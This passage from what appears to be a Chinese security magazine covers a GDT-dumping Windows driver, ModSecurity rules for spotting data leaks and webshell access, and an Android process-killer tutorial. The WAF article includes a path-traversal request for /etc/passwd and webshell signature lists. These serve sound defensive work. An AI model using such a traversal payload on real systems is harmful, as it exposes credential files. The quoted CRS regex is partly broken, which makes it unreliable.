NTSTATUS DriverEntry(__in struct _DRIVER_OBJECT *DriverObject, __in PUNICODE_STRING RegistryPath)
{
    int i = 0;
    KdBreakPoint();
    DriverObject->DriverUnload = DriverUnload;
    for (; i < KeNumberProcessors; i++) // KeQueryMaximumProcessorCount()
    {
        KeGetCurrentProcessorNumber();
        show_gdt(i);
    }
    return STATUS_SUCCESS;
}
```

#### 结果及验证如下

##### 32 位 Windows 的结果

| Sel  | Base     | Limit    | Type         | DPL | Size | Gran | Pres | Long | Flags  |
|------|----------|----------|--------------|-----|------|------|------|------|--------|
| 0000 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0008 | 00000000 | FFFFFFFF | Code RE AC   | 000 | Bg   | Pg   | P    | NI   | 0x0c9b |
| 0010 | 00000000 | FFFFFFFF | Data RW AC   | 000 | Bg   | Pg   | P    | NI   | 0x0c93 |
| 0018 | 00000000 | FFFFFFFF | Code RE AC   | 003 | Bg   | Pg   | P    | NI   | 0x0cfb |
| 0020 | 00000000 | FFFFFFFF | Data RW AC   | 003 | Bg   | Pg   | P    | NI   | 0x0cf3 |
| 0028 | 80042000 | 000020AB | Code RE AC   | 000 | Nb   | By   | P    | NI   | 0x008b |
| 0030 | FFDFF000 | 00001FFF | Data RW AC   | 000 | Bg   | Pg   | P    | NI   | 0x0c93 |
| 0038 | 00000000 | 00000FFF | Data RW AC   | 003 | Bg   | By   | P    | NI   | 0x04f3 |
| 0040 | 00000400 | 0000FFFF | Data RW      | 003 | Nb   | By   | P    | NI   | 0x00f2 |
| 0048 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0050 | 80552700 | 00000068 | Code EO AC   | 000 | Nb   | By   | P    | NI   | 0x0089 |
| 0058 | 80552768 | 00000068 | Code EO AC   | 000 | Nb   | By   | P    | NI   | 0x0089 |
| 0060 | 00022F40 | 0000FFFF | Data RW AC   | 000 | Nb   | By   | P    | NI   | 0x0093 |
| 0068 | 000B8000 | 00003FFF | Data RW      | 000 | Nb   | By   | P    | NI   | 0x0092 |
| 0070 | FFFF7000 | 000003FF | Data RW      | 000 | Nb   | By   | P    | NI   | 0x0092 |
| 0078 | 80400000 | 0000FFFF | Code RE      | 000 | Nb   | By   | P    | NI   | 0x009a |
| 0080 | 80400000 | 0000FFFF | Data RW      | 000 | Nb   | By   | P    | NI   | 0x0092 |
| 0088 | 00000000 | 00000000 | Data RW      | 000 | Nb   | By   | P    | NI   | 0x0092 |
| 0090 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0098 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00a0 | 823816B8 | 00000068 | Code EO AC   | 000 | Nb   | By   | P    | NI   | 0x0089 |
| 00a8 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00b0 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00b8 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00c0 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00c8 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00d0 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00d8 | 00000000 | 00000000 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 00e0 | F850F000 | 0000FFFF | Code RE CO AC| 000 | Nb   | By   | P    | NI   | 0x009f |
| 00e8 | 00000000 | 0000FFFF | Data RW      | 000 | Nb   | By   | P    | NI   | 0x0092 |
| 00f0 | 804FD040 | 000003B7 | Code EO      | 000 | Nb   | By   | P    | NI   | 0x0098 |
| 00f8 | 00000000 | 0000FFFF | Data RW      | 000 | Nb   | By   | P    | NI   | 0x0092 |
| 0100 | BA4D2400 | 0000FFFF | Data RW AC   | 000 | Bg   | By   | P    | NI   | 0x0493 |
| 0108 | BA4D2400 | 0000FFFF | Data RW AC   | 000 | Bg   | By   | P    | NI   | 0x0493 |
| 0110 | BA4D2400 | 0000FFFF | Data RW AC   | 000 | Bg   | By   | P    | NI   | 0x0493 |
| 0118 | 00008003 | 0000F120 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0120 | 00008003 | 0000F128 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0128 | 00008003 | 0000F130 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0130 | 00008003 | 0000F138 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0138 | 00008003 | 0000F140 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0140 | 00008003 | 0000F148 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0148 | 00008003 | 0000F150 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0150 | 00008003 | 0000F158 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0158 | 00008003 | 0000F160 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0160 | 00008003 | 0000F168 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0168 | 00008003 | 0000F170 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0170 | 00008003 | 0000F178 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0178 | 00008003 | 0000F180 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0180 | 00008003 | 0000F188 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0188 | 00008003 | 0000F190 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0190 | 00008003 | 0000F198 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0198 | 00008003 | 0000F1A0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01a0 | 00008003 | 0000F1A8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01a8 | 00008003 | 0000F1B0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01b0 | 00008003 | 0000F1B8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01b8 | 00008003 | 0000F1C0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01c0 | 00008003 | 0000F1C8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01c8 | 00008003 | 0000F1D0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01d0 | 00008003 | 0000F1D8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01d8 | 00008003 | 0000F1E0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01e0 | 00008003 | 0000F1E8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01e8 | 00008003 | 0000F1F0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01f0 | 00008003 | 0000F1F8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 01f8 | 00008003 | 0000F200 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0200 | 00008003 | 0000F208 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0208 | 00008003 | 0000F210 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0210 | 00008003 | 0000F218 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0218 | 00008003 | 0000F220 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0220 | 00008003 | 0000F228 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0228 | 00008003 | 0000F230 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0230 | 00008003 | 0000F238 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0238 | 00008003 | 0000F240 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0240 | 00008003 | 0000F248 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0248 | 00008003 | 0000F250 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0250 | 00008003 | 0000F258 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0258 | 00008003 | 0000F260 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0260 | 00008003 | 0000F268 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0268 | 00008003 | 0000F270 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0270 | 00008003 | 0000F278 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0278 | 00008003 | 0000F280 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0280 | 00008003 | 0000F288 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0288 | 00008003 | 0000F290 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0290 | 00008003 | 0000F298 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0298 | 00008003 | 0000F2A0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02a0 | 00008003 | 0000F2A8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02a8 | 00008003 | 0000F2B0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02b0 | 00008003 | 0000F2B8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02b8 | 00008003 | 0000F2C0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02c0 | 00008003 | 0000F2C8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02c8 | 00008003 | 0000F2D0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02d0 | 00008003 | 0000F2D8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02d8 | 00008003 | 0000F2E0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02e0 | 00008003 | 0000F2E8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02e8 | 00008003 | 0000F2F0 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02f0 | 00008003 | 0000F2F8 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 02f8 | 00008003 | 0000F300 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0300 | 00008003 | 0000F308 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0308 | 00008003 | 0000F310 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0310 | 00008003 | 0000F318 | \<Reserved\> | 000 | Nb   | By   | NP   | NI   | 0x0000 |

| Sel  | Base     | Limit    | Type       | DPL | Size | Gran | Pres | Long | Flags  |
|------|----------|----------|------------|-----|------|------|------|------|--------|
| 0318 | 00008003 | 0000F320 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0320 | 00008003 | 0000F328 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0328 | 00008003 | 0000F330 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0330 | 00008003 | 0000F338 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0338 | 00008003 | 0000F340 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0340 | 00008003 | 0000F348 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0348 | 00008003 | 0000F350 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0350 | 00008003 | 0000F358 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0358 | 00008003 | 0000F360 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0360 | 00008003 | 0000F368 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0368 | 00008003 | 0000F370 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0370 | 00008003 | 0000F378 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0378 | 00008003 | 0000F380 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0380 | 00008003 | 0000F388 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0388 | 00008003 | 0000F390 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0390 | 00008003 | 0000F398 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0398 | 00008003 | 0000F3A0 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03A0 | 00008003 | 0000F3A8 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03A8 | 00008003 | 0000F3B0 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03B0 | 00008003 | 0000F3B8 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03B8 | 00008003 | 0000F3C0 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03C0 | 00008003 | 0000F3C8 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03C8 | 00008003 | 0000F3D0 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03D0 | 00008003 | 0000F3D8 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03D8 | 00008003 | 0000F3E0 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03E0 | 00008003 | 0000F3E8 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03E8 | 00008003 | 0000F3F0 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03F0 | 00008003 | 0000F3F8 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 03F8 | 00000000 | 00000000 | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |

64 位 Windows 的结果：

```text
0: kd> g
Sel   Base                 Limit                Type      DPL Size Gran Pres Long Flags
----  -------------------- -------------------- --------- --- ---- ---- ---- ---- -----
0000  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
0008  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
0010  0000000000000000     0000000000000000     Code RE AC 000 Nb   By   P    Lo   0x029b
0018  0000000000000000     00000000FFFFFFFF     Data RW AC 000 Bg   Pg   P    NI   0x0c93
0020  0000000000000000     00000000FFFFFFFF     Code RE AC 003 Bg   Pg   P    NI   0x0cfb
0028  0000000000000000     00000000FFFFFFFF     Data RW AC 003 Bg   Pg   P    NI   0x0cf3
0030  0000000000000000     0000000000000000     Code RE AC 003 Nb   By   P    Lo   0x02fb
0038  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
0040  0000000001D52080     0000000000000067     Code RE AC 000 Nb   By   P    NI   0x008b
0048  0000000000000FFF     000000000000F800     <Reserved> 000 Nb   By   NP   NI   0x0000
0050  FFFFFFFFFFFA0000     0000000000003C00     Data RW AC 003 Bg   By   P    NI   0x04f3
0058  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
0060  0000000000000000     00000000FFFFFFFF     Code RE    000 Bg   Pg   P    NI   0x0c9a
0068  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
0070  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
0078  0000000000000000     0000000000000000     <Reserved> 000 Nb   By   NP   NI   0x0000
```

| Sel  | Base               | Limit              | Type       | DPL | Size | Gran | Pres | Long | Flags  |
|------|--------------------|--------------------|------------|-----|------|------|------|------|--------|
| 0000 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   |        |
| 0008 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   |        |
| 0010 | 0000000000000000   | 0000000000000000   | Code RE AC | 000 | Nb   | By   | P    | Lo   |        |
| 0018 | 0000000000000000   | 00000000FFFFFFFF   | Data RW AC | 000 | Bg   | Pg   | P    | NI   |        |
| 0020 | 0000000000000000   | 00000000FFFFFFFF   | Code RE AC | 003 | Bg   | Pg   | P    | NI   | 0x0cfb |
| 0028 | 0000000000000000   | 00000000FFFFFFFF   | Data RW AC | 003 | Bg   | Pg   | P    | NI   |        |
| 0030 | 0000000000000000   | 0000000000000000   | Code RE AC | 003 | Nb   | By   | P    | Lo   |        |
| 0038 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   |        |
| 0040 | 00000000009F7E40   | 0000000000000067   | Code RE AC | 000 | Nb   | By   | P    | NI   |        |
| 0048 | 0000000000000FFF   | 000000000000F880   | \<Reserved> | 000 | Nb   | By   | NP   | NI   |        |
| 0050 | FFFFFFFFFFFE0000   | 0000000000007C00   | Data RW AC | 003 | Bg   | By   | P    | NI   | 0x04f3 |
| 0058 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0060 | 0000000000000000   | 00000000FFFFFFFF   | Code RE    | 000 | Bg   | Pg   | P    | NI   | 0x0c9a |
| 0068 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0070 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |
| 0078 | 0000000000000000   | 0000000000000000   | \<Reserved> | 000 | Nb   | By   | NP   | NI   | 0x0000 |

这里显示 2 个，是因为有两颗 CPU。细心的你应该（从对比中）还会发现一些不足和不一样的地方，期待你的改正，剩下的任务也就是你要改正的地方。如添加显示 CPU 的个数，及段的名字（特别是系统段、各种门）等。不当之处，敬请指出。

（完）

## WAF 另类应用之 DLP 与 Webshell 访问检测

文/图 xysky

在 wooyun 网站上搜索“敏感信息泄露”，会发现很多大型企业都有被曝过漏洞。印象比较深的是“猪猪侠”报的那个关于携程安全支付日志导致大量用户银行卡信息泄露。这里我们不谈 PCI，不谈开发标准和规范，我们来说一下 WAF 在这方面的应用。WAF 除了防护常规的 Web 攻击请求外，还可以对返回给用户的信息进行检测处理，这就是我们今天这篇文章想介绍的：一个是在信息泄露方面，一个是在 Webshell 检测方面。

#### WAF 应用之 DLP

在什么情况下会有信息泄漏？可能是被恶意攻击者利用，比如 SQL 注入返回一些数据库错误信息或者数据库里的用户信息；可能是运维人员配置不对导致列目录；也有可能是开发人员无意导致，比如为了测试开启了调试日志忘了关闭；甚至是内部人员故意放一些信息想通过 Web 弄走。总之，各种可能都存在，防不胜防。下面我们结合开源 WAF 模块 ModSecurity 来配置一下。

- 1）开启响应内容检测

默认情况下，ModSecurity 不会处理响应体内容。想要对响应进行检测，需要配置一些指令。

```text
SecResponseBodyAccess On
SecResponseBodyMimeType (null) text/plain text/html text/xml
SecResponseBodyLimit 524288
SecResponseBodyLimitAction ProcessPartial
```

第一条指令是允许 ModSecurity 访问响应体内容，第二条指令是设置要检测的 Content-Type，第三条指令是设置返回给客户端的响应体最大值，第四条指令设置当返回给客户端的响应体长度太大时的响应动作。

- 2）检测目录遍历导致的信息泄露

场景：某网站未配置禁止目录浏览功能，导致一些信息可以被黑客访问并下载，如图 1 所示。


图1

这个特征比较明显，返回的 title 是 Index of，同时页面内容中有 Index of 字样。写一条规则内容如下：

```text
##### Directory Listing
SecRule RESPONSE_BODY "(?:(?:<TITLE>Index of.*?<H|title>Index of.*?<h)1>Index of|>\[To Parent Directory\]<\/\[Aa\]<br>)" \
    "phase:4,t:none,capture,ctl:auditLogParts=+E,block,msg:'Found Directory Listing',logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}',id:'970013'"
```

再次访问的时候会在 Apache 错误日志中出现如图 2 所示的信息。


图2

##### 3）检测文件包含漏洞导致的信息泄露

场景：某网站存在本地文件包含漏洞，攻击者访问 `http://vulnerable_host/preview.php?file=../../../../etc/passwd%00` 的时候，服务器将本机 `/etc/passwd` 内容返回了，如图 3 所示。


图3

Linux 系统的 `/etc/passwd` 是有共性的，我们简单地取一下即可以检测到此种漏洞发生了，规则内容：

```text
##### /etc/passwd
SecRule RESPONSE_BODY "\\b(root:x:0:0)" \
    "phase:4, t:none, capture, ctl:auditLogParts=+E, block, msg:'Found Passwd File Leakage', logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}', id:'99007'"
```

再次访问会看到如图4所示的告警信息。


图4

##### 4）检测身份证、银行卡号、手机号等敏感信息泄露

前面都是配置、代码方面的漏洞导致，很容易发现与修复。很多正规公司开发和运维是分开的，生产上的数据会进行严格的管控。如果开发人员想把一些生产上的敏感数据弄走，会想很多种办法。网站需要对外发布供互联网访问，开发人员也可以借此来操作。我们假设在 WAF 配置了仅仅只允许请求白名单里的后缀文件，比如 `.js`、`.css`、`.jpg`、`.jpeg`、`.aspx` 等等，开发者在代码里设置下陷阱，比如当请求 `test.aspx?guid=770cae94-4f3d-4213-974e-5ab3be9f014e` 这样一个 URL 的时候，会将一些敏感信息显示在页面中，这种情况依靠 WAF 对响应体内容进行分析就很有必要了。ModSecurity 提供了针对信用卡包括 Visa、MasterCard、JCB 等的检测，`verifyCC` 就是干这个的。注意，这个 `verifyCC` 除了正则匹配外，还用到 LUHN 算法来减少误报。银行卡号是不符合这个算法要求的，所以我们不用 `verifyCC`，只用正则就可以了。各银行卡都是有一定规律的，我们随便搞些卡号来测试一下，访问某页面会输出卡号，如图5所示。


图5

我们写上一条规则如下：

```text
##### Detect XX BankCard
SecRule RESPONSE_BODY "\b((622525|622526|435744|526855)\d{10})" \
    "phase:4, t:none, capture, ctl:auditLogParts=+E, block, msg:'Found Bank Card Number leakage', logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}', id:'99008'"
```

再次访问会看到如图6所示的告警信息。


图6

检测身份证也是一样的，只不过需要注意身份证有 18 位和 15 位两种情况，手机号主要是检测前面号段比如 139 之类，具体规律在网上搜索即可。在实际情况下，可以将规则变得更复杂一些，比如匹配银行卡号次数超过多少次才报警。最后，提醒一下，我们在错误日志、调试日志里记录发现的敏感卡号信息，这也是不符合 PCI 规范的，我这里主要是为了演示需要。

## WAF 应用之检测 Webshell 访问

在我们的传统思维里，WAF 对于一个已经存在的 Webshell 是没有办法进行检测的，你去咨询各大 WAF 厂商，其回答也是诸如此类。其实不然，Webshell 自身是会有一些特征，比如版权、作者信息等，另外在 Webshell 使用过程中会有一些特征。ModSecurity 的 CRS 规则有一个文件能干这事：`modsecurity_crs_45_trojans.conf`，其检测 Webshell 的内容如下：

```text
SecRule RESPONSE_BODY "(?:<title>[<`]*?(?:\b(?:c(?:ehehnemden|gi-telnet)|gamma web shell)\b|imhabilirligi phpftp)|(?:r(?:emote explorer|57shell)|aventis klasvayv|zehir)\b|\.: :(?:news remote php shell injection::\.|rhtools\b)|ph(?:p(?:?:(?:commander|-terminal)\b|remoteview)|vayv)|myshell))|\b(?:microsoft windows\b.{0,10}?\bversion\b.{0,20}?\(c\) copyright 1985-.{0,10}?\bmicrosoft"
```

```text
corp\ntdaddy v1.9 - obzerve \| fux0r inc)\. |(?:www\.sanalteror\.org - indexer and read|haxplor)er|php(?:konsole|shell)|c99shell)\b|aventgrup\. <br>|drwxr))” \
“phase:4,rev:'2',ver:'OWASP_CRS/2.2.6',maturity:'8',accuracy:'8',t:none,ctl:auditLogParts=+E,block,msg:'Backdoor access',logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}',capture,id:'950922',tag:'OWASP_CRS/MALICIOUS_SOFTWARE/TROJAN',tag:'WASCTC/WASC-01',tag:'OWASP_TOP_10/A7',tag:'PCI/5.1.1',severity:'2',setvar:'tx.msg=%{rule.msg}',setvar:tx.trojan_score=+1,setvar:tx.anomaly_score=+%{tx.error_anomaly_score},setvar:tx.%{rule.id}-OWASP_CRS/MALICIOUS_SOFTWARE/TROJAN-%{matched_var_name}=%{matched_var}”
```

这是老外的，我们结合实际情况加入一些平时收集到的特征，比如版本信息：

```html
<title>80sec
<title>PH4ckP
- c99madshell</title>
<title>JspSpy Codz By - Ninty</title>
<title>ASPXspy</title>
Phpspy
```

还有一些作者信息：

- Klr4@gmail.com
- http://www.rootkit.net.cn
- Any question, please email me cqq1978@gmail.com
- www.topronet.com</a>
- Security Angel Team [S4T]
- http://www.t00ls.net

再扩展一下，webshell 访问上来一般都会使用里面的功能，比如执行命令、反弹 shell、端口扫描等，这些功能在使用过程中也会有一些特征，比如某 webshell 反弹会有 Back Connect Success! 字样等等，请各位自行发挥。

（完）

### 打造 Android 系统加速器

文/图 马智超（DesertEagle） 高晓琪

安卓系统在长时间使用的情况下，会有很多软件隐藏在后台，时刻消耗着你的系统资源与电池电量，所以我们要关闭不必要的进程。这篇文字非常适合 Android 开发初学者，出于学习的目的，也为了更好地研究进程保护的机理，我们来打造一款 Android 系统加速器，其功能是关闭不必要的软件，关闭没有用的后台服务，同时显示可用内存、总内存以及释放了多少内存。

#### 编程分析

一个 Android 包是一个应用发布，用户能下载并安装，而一个进程是一个底层的代码运行级别的核心进程。通常 .apk 包里所有代码运行在一个进程里，一个进程对应一个 .apk 包；然而，进程可以是独立的活动、接收器、服务，或者提供器组件。当某个组件第一次运行的时候，Android 就启动了一个进程。默认地，所有的组件和程序运行在这个进程和线程中。ActivityManager 的功能是与系统中所有运行着的 Activity 交互，提供了接口，主要的接口围绕着运行中的进程信息、任务信息、服务信息等。我们可以用 getRunningAppProcesses() 获取进程信息。

下面首先需要获取现在正在运行的后台服务，将其放在列表里，核心代码如下。

```java
try
{
    list.clear();
    am = (ActivityManager) MainActivity.this.getSystemService(ACTIVITY_SERVICE); // 创建 ActivityManager 对象

    final List<RunningAppProcessInfo> l = am.getRunningAppProcesses();

    if (l.size() == 0) // 若没有正在运行的程序
    {
        Toast.makeText(MainActivity.this, "目前没有正在运行的程序！", Toast.LENGTH_SHORT).show();
        return;
    }
    // 在 ListView 上依次显示出每个正在运行程序的信息
    for (int i = 0; i < l.size(); i++)
    {
        list.add("第" + i + "项：" + l.get(i).processName + ",ID=" + l.get(i).pid);
    }
}
```

然后创建好适配器，设置选中菜单监听器。要获取 Android MemoryInfo 信息，可以使用 Debug 的函数 getMemoryInfo(Debug.MemoryInfo memoryInfo) 或 ActivityManager 的 MemoryInfo[] getProcessMemoryInfo(int[] pids) 来实现，单位可以精确到 KB。getAvailMemory() 函数可以获取当前可用内存。再通过一些逻辑上的简单判断就可以了，核心代码如下：

```java
lv.setOnItemClickListener // 设置选中菜单的监听器
(
    new OnItemClickListener()
    {
        public void onItemClick(AdapterView<?> arg0, View arg1, final int arg2, long arg3) {

            new AlertDialog.Builder(MainActivity.this).setMessage("是否杀死该进程").setPositiveButton("确定", new DialogInterface.OnClickListener() {
                @Override
                public void onClick(DialogInterface dialog, int which) {
                    am.killBackgroundProcesses(l.get(arg2).processName);
                    edittext01.setText(getAvailMemory().toString());
                    edittext02.setText(getTotalMemory().toString());
                    if (mem.equals(getAvailMemory().toString())) {
                        Toast.makeText(MainActivity.this, "该线程不可以被杀死", Toast.LENGTH_LONG).show();
                    } else {
                        String[] str = l.get(arg2).toString().split(":");
                        int[] myMempid = new int[] { l.get(arg2).pid };
                        Debug.MemoryInfo[] memoryInfo = am.getProcessMemoryInfo(myMempid);
                        int memSize = memoryInfo[0].dalvikPrivateDirty;

                        String ProInfo = ",内存：" + memSize + "kb";
                        Toast.makeText(MainActivity.this, "进程已被杀死，释放内存：" + memSize + "KB", Toast.LENGTH_LONG).show();
                        mem = getAvailMemory().toString();
                    }
                }
            }).setNegativeButton("取消", new DialogInterface.OnClickListener() {

                @Override
                public void onClick(
                    DialogInterface dialog,
                    int which) {
                    dialog.cancel();
                }
            }).create().show();
        }
    }
);
```

#### 功能测试

打开软件界面，如图 1 所示，我们可以看到总内存以及可用内存。


图 1

现在我们点击进程列表看看现在运行的进程，获取所有正在运行的后台服务，如图 2 所示。


图 2

接下来我们点击要结束的进程，会弹出窗口提示，如图 3 所示。


图 3

如果碰到一些被结束掉的进程又马上自动开启的，会有窗口提示，如图 4 所示。


图 4

通过测试指定结束相应的进程，可以显示可用内存、后台服务、释放了多少内存，通过结束掉进程可以起到一定的加速作用，小小的 Android 系统加速器做好了。通过这次编程，学会了一些对系统进程与内存相关的编程操作，由浅入深，为了更好地理解各种应用运行的原理，学习将会继续。

（完）

### 2015 年第 6 期杂志特约选题征稿

